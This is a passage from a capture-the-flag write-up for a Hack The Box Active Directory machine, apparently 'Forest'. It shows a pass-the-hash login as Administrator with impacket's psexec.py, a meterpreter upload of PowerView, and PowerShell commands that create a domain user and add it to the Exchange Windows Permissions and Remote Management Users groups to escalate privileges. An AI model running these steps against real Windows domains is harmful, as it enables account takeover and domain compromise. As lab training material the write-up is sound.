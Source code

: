 # root.txt (1)

Using `impacket`'s [`psexec.py`](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) and the hashes we got, we can remotely login to the box as Administrator.

{% highlight bash %}
$ psexec.py Administrator@htb.local -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file NKMskQmQ.exe
[*] Opening SVCManager on htb.local.....
[*] Creating service IHWO on htb.local.....
[*] Starting service IHWO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>more C:\Users\Administrator\Desktop\root.txt
f048XXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

# root.txt(2)

First we will need to upload [`PowerView`](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1), which contains the commands needed for our exploit. 

{% highlight raw %}
meterpreter > upload /root/Downloads/PowerView.ps1 .
[*] uploading  : /root/Downloads/PowerView.ps1 -> .
[*] uploaded   : /root/Downloads/PowerView.ps1 -> .\PowerView.ps1
{% endhighlight %}

Back to the powershell shell, we will import it in.
{% highlight powershell %}
Import-Module .\PowerView.ps1
{% endhighlight %}

Next we will create a new user and add him to the `EXCHANGE WINDOWS PERMISSIONS` group.
{% highlight powershell %}
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
New-DomainUser -SamAccountName rizemon -AccountPassword $UserPassword
Add-DomainGroupMember -Identity "Exchange Windows Permissions" -Members 'rizemon'
{% endhighlight %}

With that done, we will need to login as the newly created user. To do so, we will need to allow the user to be remotely managed by adding him to the `Remote Management Users` group.
{% highlight powershell %}
Add-DomainGroupMember -Identity "Remote Management Users" -Members 'rizemon'
{% endhighlight %}
